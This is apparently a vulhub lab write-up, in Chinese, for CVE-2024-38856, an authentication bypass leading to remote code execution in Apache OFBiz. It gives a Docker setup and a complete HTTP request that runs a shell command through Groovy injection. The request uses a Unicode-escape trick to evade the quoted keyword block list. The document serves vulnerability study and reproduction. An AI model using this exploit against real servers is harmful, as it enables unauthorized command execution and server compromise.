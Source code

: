 # Apache OFBiz 身份验证绕过导致远程代码执行 (CVE-2024-38856)

Apache OFBiz 是一个开源的企业资源规划（ERP）系统。它提供了一套企业应用程序，用于集成和自动化企业的许多业务流程。

这个漏洞是由于对 [CVE-2023-51467](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2023-51467) 的不完全修复而产生的。在 Apache OFBiz 18.12.11 版本中，开发人员认为他们已经修复了该漏洞，但实际上他们只解决了其中一种利用方法。Groovy 表达式注入仍然存在，允许未经授权的用户在服务器上执行任意命令。

References:

- <https://github.com/apache/ofbiz-framework/commit/31d8d7>
- <https://forum.butian.net/article/524>
- <https://github.com/Praison001/CVE-2024-38856-ApacheOfBiz>

## 漏洞环境

执行如下命令启动一个Apache OfBiz 18.12.10服务器：

```
docker compose up -d
```

在等待数分钟后，访问`https://localhost:8443/accounting`查看到登录页面，说明环境已启动成功。

## 漏洞复现

直接发送如下请求即可使用Groovy脚本执行`id`命令：

```
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDbR7sY3IIwQX7kcJ
Content-Length: 190

------WebKitFormBoundaryDbR7sY3IIwQX7kcJ
Content-Disposition: form-data; name="groovyProgram"

throw new Exception('id'.\u0065xecute().text);
------WebKitFormBoundaryDbR7sY3IIwQX7kcJ--
```

![](1.png)

值得注意的是，Apache Ofbiz限制了如下一些关键词的使用，我们可以通过Unicode编码来绕过这个限制，比如`\u0065xecute`：

```
deniedWebShellTokens=java.,beans,freemarker,<script,javascript,<body,body ,<form,<jsp:,<c:out,taglib,<prefix,<%@ page,<?php,exec(,alert(,\
                     %eval,@eval,eval(,runtime,import,passthru,shell_exec,assert,str_rot13,system,decode,include,page ,\
                     chmod,mkdir,fopen,fclose,new file,upload,getfilename,download,getoutputstring,readfile,iframe,object,embed,onload,build,\
                     python,perl ,/perl,ruby ,/ruby,process,function,class,InputStream,to_server,wget ,static,assign,webappPath,\
                     ifconfig,route,crontab,netstat,uname ,hostname,iptables,whoami,"cmd",*cmd|,+cmd|,=cmd|,localhost,thread,require,gzdeflate,\
                     execute,println,calc,touch,calculate
```
